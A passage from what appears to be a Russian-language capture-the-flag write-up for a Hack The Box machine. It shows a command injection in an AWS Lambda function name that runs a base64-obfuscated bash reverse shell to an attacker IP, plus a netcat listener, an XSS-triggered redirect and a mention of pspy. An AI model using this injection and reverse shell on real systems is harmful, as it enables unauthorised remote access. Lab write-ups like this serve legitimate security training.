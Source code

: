Флаг -n в команде echo позволяет избавиться от переноса строки, т.е. \n.

В итоге у нас должно получить что-то такое:

```
$ aws lambda --endpoint=http://s3-testing.stacked.htb create-function --function-name 'func1;echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45My85ODk4IDA+JjE=|base64 -d|bash' --role user --handler index.handler --runtime nodejs10.x --zip-file fileb://index.zip
```

Теперь ставим листенер:

```
$ nc -nlvp 9898
```

Снова через BurpSuite отправляем запрос с XSS на редирект на localhost:8080. Получаем шелл:

![](../../../../.gitbook/assets/16.png)

### Обнаружение мисконфигов с помощью PSPY:

Теперь нам нужно прокинуть pspy на атакуемый хост и запустить:

![](../../../../.gitbook/assets/17.png)

Теперь, если мы выполним действия создания функции и ее проверки:
